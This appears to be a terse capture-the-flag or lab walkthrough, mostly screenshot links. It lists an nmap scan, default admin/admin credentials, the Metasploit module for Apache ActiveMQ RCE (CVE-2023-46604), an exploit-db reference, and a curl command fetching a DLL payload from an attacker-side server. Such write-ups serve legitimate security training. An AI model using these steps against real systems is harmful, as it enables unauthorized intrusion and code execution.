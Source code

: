 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9978a913-08ab-40d8-a1c8-338fa6805d66)

```
nmap -p- 192.168.2.8 -v -sC -sV -Pn
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84fb52b4-7c16-4c90-adad-6d26a3fd40d8)

admin/admin

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f885f3e9-c4e7-4b48-9bb3-d56c39be9796)

msf6

multi/misc/apache_activemq_rce_cve_2023_46604

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ab3f585e-50c7-4c02-8d33-abd7a511b7b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/12c6196c-cf44-4ba4-93fd-f9e5cc911e85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7db10fb-550f-4160-8bd9-e3791687ce40)

https://www.exploit-db.com/exploits/51267

```
curl -O http://192.168.100.IP:8000/TextShaping.dll
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2186c168-638f-43da-9d82-f159611a0753)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dcc902b-1063-4e27-bc3d-b9f067f7be60)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e7d7ba3-ddf7-4b65-b9b5-c0ebf5f984c9)


